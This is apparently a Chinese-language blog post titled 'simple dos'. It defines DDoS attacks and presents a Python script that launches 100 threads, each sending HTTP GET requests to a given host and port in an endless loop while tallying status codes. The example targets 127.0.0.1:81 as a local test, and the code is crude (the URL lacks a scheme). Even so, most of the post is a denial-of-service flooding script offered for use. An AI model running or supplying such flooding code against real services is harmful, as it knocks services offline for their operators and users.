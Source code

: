 ```yaml
---
title: 简单的dos
date: 2021-09-19 13:44:17
tags: [多线程请求,python]
categories: [后端,python]
---
```


## DDos介绍

### 定义

分布式拒绝服务（Distributed Denial of Service）攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动dos攻击，从而成倍地提高拒绝服务攻击的威力。通常该攻击方式利用目标系统网络服务功能缺陷或者直接消耗其系统资源，使得该目标系统无法提供正常的服务。


## 使用python模拟点对点的攻击

### 思路：

利用多线程的无限循环发起请求，统计结果以及抛出502错误

1. 创建类继承多线程
2. 使用init封装url
3. run方法传入url，以及错误处理
4. 统计数据和主方法启动

### 测试代码：

```python
# -*- coding = utf-8 -*-
# @Time : 2021/9/19 13:45
# @Author : FSAN
# @File : sendHttpRequest.py
# @Software : PyCharm


from threading import Thread
from requests import get

status = {"200": 0, "404": 0, "500": 0}


class sendHtpp(Thread):
    def __init__(self, HOST, PORT):
        global status
        self.url = f"{HOST}:{PORT}"
        super().__init__()

    def run(self) -> None:
        while True:
            sendHtpp.START(self.url)

    def START(url):
        try:
            resp = get(url).status_code
            status[str(resp)] += 1
            print(status)
        except:
            pass


if __name__ == '__main__':
    for i in range(100):
        s = sendHtpp("127.0.0.1", 81)
        s.start()
    s.join()
```


